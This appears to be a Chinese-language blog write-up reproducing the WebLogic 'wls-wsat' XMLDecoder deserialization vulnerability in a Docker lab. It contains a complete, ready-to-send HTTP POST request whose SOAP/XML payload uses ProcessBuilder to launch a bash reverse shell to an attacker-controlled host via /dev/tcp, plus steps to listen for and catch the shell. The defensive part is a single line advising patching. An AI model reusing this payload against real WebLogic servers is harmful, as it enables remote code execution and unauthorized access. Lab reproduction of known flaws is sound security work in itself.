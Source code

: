 # 【漏洞复现】Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

- 序列化：就是把抽象的对象编程可存储、可传输的字节流(对象->字符串)。反序列化：就是把字节流转换成对象的过程(字符串->对象)。
- 反序列化漏洞：就是不管是PHP还是JAVA等编程语言，都有两个特殊的函数：`构造函数`和`析构函数`。这两个函数分别会在对象创建/销毁时自动调用。所以如果该函数中如果存在危险函数，则就有可能造成反序列化漏洞。
- Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。
- 影响版本： `10.3.6.0.0`、 `12.1.3.0.0`、  ` 12.2.1.2.0` 、`12.2.1.1.0` 
### 在docker中启动实验环境
![image](https://github.com/hecker-zz/blog/assets/153266742/a5d88591-a119-40e5-8924-d91aaaae4206)

### 访问7001端口，如显示404则环境搭建成功
![image](https://github.com/hecker-zz/blog/assets/153266742/fec6e30f-934a-49d2-82b1-73ec21b5299f)

### 访问7001:/wls-wsat/CoordinatorPortType 这个目录，如出现下图则可能存在漏洞
![image](https://github.com/hecker-zz/blog/assets/153266742/13187049-f389-4ffa-a024-1c350539c957)
### 直接去bp抓包Ctrl+R发送到重放模块
![image](https://github.com/hecker-zz/blog/assets/153266742/1d0516c6-8849-4914-99c0-6dd5f31d585f)

### 反弹一个shell
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: IP:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/IP/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
### 修改完成后打开主机进行监听，然后反弹shell
### 主机监听
![image](https://github.com/hecker-zz/blog/assets/153266742/3dccb61a-6bb4-4cec-8146-a495073f71b3)

### 反弹后成功拿到shell
![image](https://github.com/hecker-zz/blog/assets/153266742/a70478bd-a0b3-4088-85b1-303d333fdcff)

### 漏洞防御
- 一般就是打补丁